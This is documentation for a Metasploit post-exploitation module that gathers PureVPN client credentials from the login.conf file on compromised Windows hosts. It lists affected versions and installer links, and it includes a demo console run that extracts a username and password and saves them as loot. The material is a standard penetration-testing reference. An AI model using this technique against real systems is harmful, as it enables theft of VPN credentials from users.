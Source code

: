 # Introduction

This module allows you to collect login information for PureVPN client, specifically the `login.conf` file.

# Vulnerable Application

Versions before 6.0 should be vulnerable. For testing purposes, you may find the vulnerable version here:

* [https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m](https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m)
* [https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe](https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe)

# Options

**RPATH**

You may manually set the `RPATH` datastore option to allow the post module to find the installed
directory of PureVPN.

# Demo

```
msf5 post(windows/gather/credentials/purevpn_cred_collector) > rerun
[*] Reloading module...

[*] Searching PureVPN Client installation at C:\ProgramData
[*] Found PureVPN Client installation at C:\ProgramData
[*] Checking for login configuration at: C:\ProgramData\purevpn\config\
[*] Configuration file found: C:\ProgramData\purevpn\config\login.conf
[*] Found PureVPN login configuration on DESKTOP-AFMF2QU via session ID: 1
[+] Collected the following credentials:
[+]     Username: asfafsdas
[+]     Password: 23423423
[*] PureVPN credentials saved in: /Users/wchen/.msf4/loot/20181127162258_default_172.16.249.215_PureVPN.creds_515624.txt
[*] Post module execution completed
```
